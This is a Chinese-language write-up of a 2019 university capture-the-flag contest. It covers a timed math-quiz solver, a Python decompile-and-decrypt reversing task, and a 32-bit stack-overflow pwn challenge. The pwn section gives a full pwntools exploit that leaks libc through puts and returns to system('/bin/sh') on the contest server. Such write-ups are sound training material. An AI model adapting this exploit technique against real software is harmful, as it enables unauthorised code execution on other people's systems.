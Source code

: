 ```yaml
---
title: 广东外语外贸大学第三届网络安全大赛Writeup
visitors: 阅读量
copyright: true
tags:
  - writeup
categories:
  - writeup
abbrlink: 6d430184
date: 2019-12-04 16:22:55
updated: 2019-12-09 16:22:55
password:
top:
---
```


# 广东外语外贸大学第三届网络安全大赛Writeup

> 官方WP：https://github.com/gwht/2019GWCTF/tree/master/

## Msic

### math

是男人就下150层嘛，也就是答对150次计算题就返回 flag 嘛。这道题与 pwnable.kr 的一道题很像。题目有作答时间限制，所以用脚本跑吧。~~可能是人品问题，跑了很多次，最好的就是回答到 147 之后就链接断了（垃圾校园网？）。~~

最终EXP：

```python
from pwn import *
context.log_level = 'debug'

p = remote("183.129.189.60",10034)

n = 0
while n<150:
	p.recvuntil("Math problem: ")
	math = p.recvuntil("=")[:-2]
	p.sendline(str(eval(math)))
	sleep(1)
	n += 1
else:
    p.sendline("cat flag")
```



## RE

### pyre

python文件的反编译。这里使用的是工具**Easy Python Decompiler**，或者可以[在线python反编译](<https://tool.lu/pyc/>)（可能存在重复代码bug）。

反编译得到的源码：

```python
# Embedded file name: encode.py
print 'Welcome to Re World!'
print 'Your input1 is your flag~'
l = len(input1) #23
for i in range(l):
    num = ((input1[i] + i) % 128 + 128) % 128
    code += num

for i in range(l - 1):
    code[i] = code[i] ^ code[i + 1]

print code
code = ['\x1f', '\x12', '\x1d', '(', '0', '4', '\x01', '\x06', '\x14', '4', ',', '\x1b', 'U', '?', 'o', '6', '*', ':', '\x01', 'D', ';', '%', '\x13']
```

这里就是一个加密程序，逆算法就可以了。源码中的第一个 for 循环里面分两种情况（小于128、大于128）带入数据计算后，得出简化加密：``(input1[i] + i) % 128``。

第二个 for 循环中的是列表连续异或，解密时需要从尾部开始再次进行异或。

最终EXP：

```python
a = ['\x1f', '\x12', '\x1d', '(', '0', '4', '\x01', '\x06', '\x14', '4', ',', '\x1b', 'U', '?', 'o', '6', '*', ':', '\x01', 'D', ';', '%', '\x13']
l = len(a)
print l
a = map(ord,a)
for i in range(l-1,0,-1):
	a[i-1] = a[i-1]^a[i]
code = ''
for i in range(l):
	num = (a[i]-i) % 128
	code += chr(num)
print code
```



## Pwn

### 史上最简单的pwn

32位 C++ 编写的程序，运行（或）需要安装libc：``sudo aptitude -f install lib32stdc++6``

栈溢出题目，选择的溢出变量为 s 。单单才变量信息看上去没有问题，不存在溢出。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191209160424.png)

但是后面的会将字符串中的 I 替换为 pretty。只用 I 够多就能覆写 eip。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191209160727.png)

最终EXP：

```python
#coding:utf-8
from pwn import *
context.log_level = 'debug'
elf = ELF('./easy_pwn')
local = 0
if local:
	p = process('./easy_pwn')
	libc = elf.libc
else:
	p = remote("183.129.189.60","10025")
	libc = ELF('./libc6-i386_2.23.so')
main = 0x80492F5

sd = lambda s:p.send(s)
sl = lambda s:p.sendline(s)
rc = lambda s:p.recv(s)
ru = lambda s:p.recvuntil(s)
sda = lambda a,s:p.sendafter(a,s)
sla = lambda a,s:p.sendlineafter(a,s)

# 泄露 libc 地址
ru("name!\n")
pay = 'I'*0x10 
pay += p32(elf.plt['puts']) + p32(main) + p32(elf.got['puts'])
# gdb.attach(p,"b *0x80490CB")

# 计算函数 system 和字符串 /bin/sh 的地址
sl(pay)
ru('\n')
puts_addr = u32(rc(4))
libc_base = puts_addr - libc.symbols['puts']
system = libc_base + libc.symbols['system']
binsh = libc_base + libc.search("/bin/sh\x00").next()
log.warn("puts_addr --> %s",hex(puts_addr))
log.warn("system --> %s",hex(system))
log.warn("binsh --> %s",hex(binsh))
log.warn("libc_base --> %s",hex(libc_base))

ru("name!\n")
pay = 'I'*0x10
pay += p32(system) + p32(main) + p32(binsh)
# gdb.attach(p,"b *0x80490CB")
sl(pay)

p.interactive()
```